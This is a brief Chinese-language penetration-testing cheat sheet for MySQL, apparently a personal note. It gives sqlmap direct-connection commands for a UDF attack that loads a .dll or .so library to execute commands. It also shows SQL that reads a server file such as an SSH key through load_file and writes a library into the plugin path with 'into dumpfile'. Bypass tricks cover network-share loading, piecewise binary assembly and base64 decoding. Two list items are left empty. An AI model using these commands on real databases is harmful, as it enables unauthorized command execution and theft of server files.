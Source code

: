## 1. 渗透

### 1.1. UDF

相当于上传一个.dll/.so直接加载，可以执行命令

```bash
sqlmap -d 'mysql://USER:PASSWORD@DBMS_IP:DBMS_PORT/DATABASE_NAME'
sqlmap -d 'access://DATABASE_FILEPATH'
```

参考文章[利用MySQL UDF进行的一次渗透测试](https://www.freebuf.com/articles/system/163144.html)

> tips

```mysql
# 读插件位置
select @@plugin_dir;
```



### 1.2. 读文件

```mysql
create temporary table text(test text);
insert into text(test) values (load_file('/root/.ssh/id_rsa.pub'));
select * from text;
```



### 1.3. 写文件

```mysql
select 0x30 into dumpfile '/tmp/udf.dll';
```

关于绕过可以用：

1. load_file函数支持网络路径。`load_file('\\\\192.168.0.19\\network\\lib_mysqludf_sys_64.dll') `

2. 将二进制拆分，用update写入表中。

   ```mysql
   create table temp(data longblob);
   insert into temp(data) values 0x30;
   update temp set data = concat(data ,0x31);
   select data from temp into dumpfile '/tmp/udf.dll';
   ```

3. 利用base64。

   ```mysql
   select from_base64("MQo=") into dumpfile '/tmp/udf.dll';
   ```

4. 

5. 

